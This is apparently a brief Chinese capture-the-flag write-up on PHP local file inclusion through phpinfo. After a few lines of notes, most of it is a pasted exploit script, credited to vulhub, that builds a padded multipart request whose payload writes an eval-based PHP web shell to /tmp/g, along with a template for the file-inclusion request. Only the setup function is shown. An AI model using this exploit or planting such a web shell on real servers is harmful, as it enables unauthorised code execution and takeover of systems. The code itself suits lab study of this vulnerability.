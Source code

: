 ![image-20200415205827356](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1360%E4%BC%97%E6%B5%8B%E8%80%83%E6%A0%B8/image-20200415205827356.png)

提示：php文件包含

发现 www.zip源码

下载发现lfi.php文件

php文件包含漏洞（利用phpinfo）

![image-20200415210025732](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1360%E4%BC%97%E6%B5%8B%E8%80%83%E6%A0%B8/image-20200415210025732.png)

GitHub：https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py

```
EXP:
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
```